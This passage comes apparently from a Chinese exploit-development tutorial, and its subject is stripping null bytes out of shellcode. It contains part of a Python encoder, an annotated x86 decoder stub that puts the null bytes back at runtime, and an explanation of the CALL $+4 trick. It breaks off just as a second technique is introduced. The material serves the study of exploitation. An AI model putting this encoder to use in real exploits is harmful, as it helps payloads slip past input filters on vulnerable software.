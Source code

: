 ```
        0x0F, 0x44, 0xC6,                                   #   CMOVE EAX, ESI
        0xAA,                                               #   STOSB
        0xE2, 0xF6                                          #   LOOP loop1
                                                            # shellcode_begin:
    ]
 
    return ''.join([chr(x) for x in code]) + shellcode.replace('\0', chr(missing_byte))

```

逐字节地分析`shellcode`并了解下这是否为被忽略的值，即从不出现在`shellcode`中的值。我们来了解下值`0x14`.如果我们用该值替换在`shellcode`中的每个`0x00`，那么`shellcode`将不再含有`null`字节，但是会因为被修改了而无法执行。最后是将一些`decoder`添加到`shellcode`，在运行时时，在原`shellcode`被执行前将重置null字节。如下：

```
CALL $ + 4                                  ; PUSH "here"; JMP "here"-1
here:
  (FF)C0 = INC EAX                            ; not important: just a NOP
  POP EDI                                     ; EDI = "here"
  MOV ECX, <xor value 1 for shellcode len>
  XOR ECX, <xor value 2 for shellcode len>    ; ECX = shellcode length
  ADD EDI, shellcode_begin - here             ; EDI = absolute address of original shellcode
  XOR ESI, ESI                                ; ESI = 0
  CLD                                         ; tells STOSB to go forwards
loop1:
  MOV AL, BYTE PTR [EDI]                      ; AL = current byte of the shellcode
  CMP AL, <missing byte>                      ; is AL the special byte?
  CMOVE EAX, ESI                              ; if AL is the special byte, then EAX = 0
  STOSB                                       ; overwrite the current byte of the shellcode with AL
  LOOP loop1                                  ; DEC ECX; if ECX > 0 then JMP loop1
shellcode_begin:

```

这里有两个需要重点讨论的细节。首先，该代码不能含有`null`字节，因为我们需要另一段代码来移除他们

![enter image description here](http://ttp//drops.wooyun.org/wp-content/uploads/2015/09/2.png)

正如你看到的，`CALL`指令不会跳转到`here`，因为操作码（`opcode`）

```
E8 00 00 00 00               #   CALL here

```

包含四个`null`字节. 因为`CALL` 指令为 5个字节, 所以`CALL here`指令等价于`CALL $+5`.除去`nul`l字节的技巧是使用指令 `CALL $+4`：

```
E8 FF FF FF FF               #   CALL $+4

```

那CALL跳过4个字节 并jmp到CALL本身的最后一个FF。由字节C0紧接着CALL指令，因此在CALL指令执行之后该指令INC EAX对应的操作码FF C0会被执行。注意CALL指令中已压入栈的值仍然是here标记的绝对地址

这是除去null字节的第二种技巧：
